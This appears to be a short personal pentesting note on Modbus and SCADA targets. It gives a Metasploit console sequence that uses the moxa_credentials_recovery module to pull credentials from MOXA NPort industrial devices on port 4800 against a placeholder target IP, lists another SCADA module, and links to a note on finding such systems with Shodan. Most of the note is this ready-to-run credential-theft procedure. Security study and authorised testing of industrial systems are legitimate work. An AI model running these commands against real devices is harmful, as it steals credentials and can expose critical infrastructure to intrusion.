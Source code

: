 # Modbus

Gather MOXA NPort credentials when authentication is on.

```
msf > use auxiliary/admin/scada/moxa_credentials_recovery

msf auxiliary(admin/scada/moxa_credentials_recovery) > options

msf auxiliary(admin/scada/moxa_credentials_recovery) > set function creds

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rport 4800

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rhosts <target_IP>

msf auxiliary(admin/scada/moxa_credentials_recovery) > run
```

TODO: Go through each and every MSF module related to SCADA/ICS

```
auxiliary/analyze/modbus_zip
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xA - Search Engines/Security Engines/Shodan/Use Cases/IoTs/Modbus/SCADA (ICS)|Shodan: SCADA]]
